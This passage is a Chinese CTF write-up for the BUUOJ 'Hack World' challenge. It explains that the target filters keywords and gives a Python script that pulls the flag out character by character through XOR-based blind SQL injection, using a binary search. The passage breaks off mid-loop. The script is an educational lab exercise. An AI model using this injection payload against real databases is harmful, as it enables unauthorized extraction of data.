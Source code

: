### 参考链接：

- [CTF中常见php-MD5()函数漏洞](https://www.loongten.com/2020/02/22/ctf-php-md5/)

## 0x04 [CISCN2019 华北赛区 Day2 Web1]Hack World

[题目链接](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)

![image-20210813220634873](image-20210813220634873.png "首页")

试一下就知道，`or` `and` `union` 等关键字都被过滤了，所以不能**union注入**或者**报错**注入。

以及输入`1`和`2`是可以看到正常的回显结果的

```txt
1：Hello, glzjin wants a girlfriend.
2：Do you want to be my girlfriend?
```

google之后可以知道，还有一种注入叫做[异或注入](https://cbatl.gitee.io/2020/06/20/xor/)，这也是这题的考察点。

所以思路就是使用异或注入，逐位爆破flag的内容。

直接上脚本，注意每次请求之间加个`sleep`，不然会出错，因为请求之间间隔太短，导致收到的结果可能会顺序错乱。

```python
import requests as rq
import time

host = 'http://ac7a6112-32f7-48c9-9088-66a935888686.node4.buuoj.cn:81/index.php'

flag = ""
payload = {
    "id": ""
}
for i in range(1, 50):
    # 二分查找很细节
    a = 32
    b = 128
    m = (a + b) >> 1
    while a < b:
        payload["id"] = "0^(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i, m)
        # print(payload["id"])
        se = rq.post(url=host, data=payload)
        # 请求发太快了容易出问题，所以这里的sleep是必须的
        time.sleep(0.1)
        # 如果猜的数字更小
        if "Hello" in se.text:
            a = m + 1
        else:
            b = m
```